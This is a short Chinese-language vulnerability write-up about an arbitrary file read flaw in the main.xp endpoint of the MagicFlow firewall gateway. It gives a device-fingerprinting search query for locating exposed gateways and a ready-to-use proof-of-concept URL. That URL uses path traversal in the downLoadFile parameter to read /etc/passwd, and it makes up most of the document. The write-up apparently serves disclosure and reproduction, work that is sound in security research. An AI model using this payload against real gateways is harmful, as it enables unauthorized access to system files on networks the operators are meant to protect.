 # 

# MagicFlow 防火墙网关 main.xp 任意文件读取漏洞

## 漏洞描述

MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件

## 漏洞影响

```
MagicFlow 防火墙网关
```

## 网络测绘

```
app="MSA/1.0"
```

## 漏洞复现

登录页面如下

![](./images/202202162301720.png)

构造POC

```plain
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```

![](./images/202202162301323.png)

